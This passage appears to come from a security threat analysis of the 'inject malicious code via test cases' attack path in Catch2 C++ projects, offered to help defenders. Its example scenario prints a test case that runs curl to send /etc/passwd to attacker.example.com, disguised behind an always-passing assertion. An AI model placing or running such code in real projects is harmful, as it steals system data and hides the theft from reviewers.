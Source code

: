 **Specific Considerations for Catch2:**

* **Test Case Structure:** Be wary of overly complex or obfuscated test cases. Malicious code could be hidden within seemingly innocuous test logic.
* **`SECTION` Blocks:** While useful for structuring tests, be cautious about complex logic within `SECTION` blocks, as they can be harder to review.
* **Custom Reporters and Listeners:**  If custom Catch2 reporters or listeners are used, ensure they are from trusted sources and their code is reviewed, as they execute during test runs.
* **External Commands in Tests:** Avoid executing external commands within test cases unless absolutely necessary and with proper sanitization and validation. This is a prime location for injecting malicious commands.
* **File System Access:** Be cautious about tests that read or write files, as this could be exploited to introduce or modify malicious files.

**Example Scenario:**

A disgruntled developer, before leaving the company, adds the following malicious code to a test case:

```cpp
#include "catch2/catch_test_macros.hpp"
#include <cstdlib>

TEST_CASE("Benign Test Case") {
  REQUIRE(1 + 1 == 2);
}

TEST_CASE("Malicious Test Case") {
  // Simulate a data exfiltration attempt
  std::system("curl -X POST -d \"stolen_data=$(cat /etc/passwd)\" https://attacker.example.com/exfiltrate");
  REQUIRE(true); // This test will always pass to mask the malicious activity
}
```

This seemingly simple test case executes a `curl` command to exfiltrate the `/etc/passwd` file to an attacker-controlled server. Because the `REQUIRE(true)` ensures the test passes, this malicious activity might go unnoticed unless proper code review and security monitoring are in place.

**Conclusion:**

The "Inject Malicious Code via Test Cases" attack path poses a significant threat to the security and integrity of the application development process. By understanding the potential attack vectors, impacts, and implementing robust prevention and detection strategies, development teams can significantly reduce the risk associated with this attack path. Continuous vigilance, secure coding practices, and a strong security culture are crucial for mitigating this threat effectively. This deep analysis serves as a starting point for further discussion and implementation of necessary security measures.